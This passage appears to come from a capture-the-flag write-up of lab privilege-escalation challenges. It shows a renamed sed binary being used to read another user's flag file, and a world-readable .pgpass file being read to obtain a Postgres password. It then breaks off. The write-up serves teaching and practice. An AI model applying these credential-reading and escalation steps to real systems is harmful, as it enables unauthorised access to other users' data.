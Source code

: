 ``` text
  -z, --null-data
                 separate lines by NUL characters
      --help     display this help and exit
      --version  output version information and exit
If no -e, --expression, -f, or --file option is given, then the first
non-option argument is taken as the sed script to interpret.  All
remaining arguments are names of input files; if no input files are
specified, then the standard input is read.

GNU sed home page: <https://www.gnu.org/software/sed/>.
General help using GNU software: <https://www.gnu.org/gethelp/>.
```

Examining the file, we can determine that this is just GNU utility `sed`, but renamed.

{% highlight bash %}
chosen@400f7a9ed956:/home/solaire$ /usr/local/bin/sunbro '' flag.txt
{% endhighlight %}

**Flag:** `flag{praise_the_sun}`

## Escalator 3

### Escalator 3 - Challenge

What is dusk's flag?

### Escalator 3 - Solution

The point values are increasing.
This will probably be a little tougher.
I probably should have taken a look at dusk's home directory first, but after skimming some other areas that's where I eventually ended up.

``` text
chosen@b78b6d382aea:/home/dusk$ ls -la
total 28
drwxr-xr-x 1 dusk dusk 4096 May 13 03:51 .
drwxr-xr-x 1 root root 4096 May 13 03:51 ..
-rw-r--r-- 1 dusk dusk  220 Apr 18  2019 .bash_logout
-rw-r--r-- 1 dusk dusk 3526 Apr 18  2019 .bashrc
-rwx------ 1 dusk dusk   20 May 13 03:51 flag.txt
-rw-r--r-- 1 dusk dusk   20 May 13 03:51 .pgpass
-rw-r--r-- 1 dusk dusk  807 Apr 18  2019 .profile
```

Interesting. We have a Postgresql credential file stored in the directory.
My best guess at this point is that we're going to use that to authenticate to Postgres as dusk and use Postgres to read the flag file.
Let's give it a go.

``` text
chosen@b78b6d382aea: /home/dusk^Gchosen@b78b6d382aea:/home/dusk$ cat .pgpass 
*:*:*:dusk:oolacile
```
